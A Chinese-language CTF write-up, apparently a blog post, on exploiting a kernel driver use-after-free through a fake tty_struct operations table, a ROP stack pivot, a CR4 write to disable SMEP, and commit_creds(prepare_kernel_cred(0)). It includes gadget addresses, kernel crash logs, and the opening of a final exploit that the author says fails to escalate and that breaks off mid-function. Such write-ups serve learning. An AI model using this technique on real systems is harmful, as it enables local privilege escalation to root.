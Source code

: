 ```c
    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;
```
首先，使用write函数触发栈迁移，此时栈应该在fake_op的头部位置。之后ret到pop rax ; ret的gadget，将rax赋值为事先构造好的ROP链，然后ret。**注意：ret后面又是一个mov rsp, rax，这就使得rsp自然地被迁移到了ROP上。**至此，一切顺理成章地完成了。

笔者无比欣喜地开始测试，想看到那个梦寐以求的'#'出现，但是kernel却甩给我一堆报错信息，1s之内难以截屏，但大致说的是：unable to handle kernel paging request。

![](https://img-blog.csdnimg.cn/b837e5b8df6446df82863e6bdbffe367.png)
![](https://img-blog.csdnimg.cn/abb50a40f0a54b39a41c979de4c01ad9.png)
又回去用git库中带的exp试了一下，没有问题啊。什么问题呢？终端在最后显示的信息中，有笔者写入到程序中的标志信息，即已经进入了调用system("/bin/sh")的函数，但是还是报错了，报的错还不一样。。。。。。
给自己代码稍微该了下。好，现在报错是一样的且不会重启了：

```
[+] Congratulations! root got......
[    4.253787] traps: uaf.o[90] general protection ip:4110a2 sp:7ffd42a4da38 error:0 in uaf.o[401000+96000]
[    4.255947] device release
[    4.256551] bad magic number for tty struct (5:2) in tty_release
Segmentation fault
```

注意到成功的elf文件中，退出root后也会产生同样的错误。

![](https://img-blog.csdnimg.cn/18cca2dc76834b038295b7d5cf8c2565.png)
更奇妙的是，当我在此基础上添加几个printf时，居然又出现了kernel panic错误。推测是编译器问题，暂时无法解决(ノへ￣、)，但是原理算是全部清楚了。

最终exp：（能够执行到shell函数但无法提权）

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

const unsigned long long commit_creds = 0xffffffff810a1420, prepare_kernel_cred = 0xffffffff810a1810;
#define movcr4rdi_poprbp_ret 0xffffffff81004d80	// need to move 0x6f0 to cr4
#define swapgs_poprbp_ret 0xffffffff81063694
#define iretq 0xffffffff8181a797
#define poprdi_ret 0xffffffff810d238d
#define movrsprax_decebx_ret 0xffffffff8181bfc5
#define poprax_ret 0xffffffff8100ce6e

unsigned long long fake_tty_operations[30];

void saveStatus();
void print_binary(char* buf, int length);
void rise_cred();
void shell();

size_t user_cs, user_ss, user_rflags, user_sp;
void saveStatus(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
```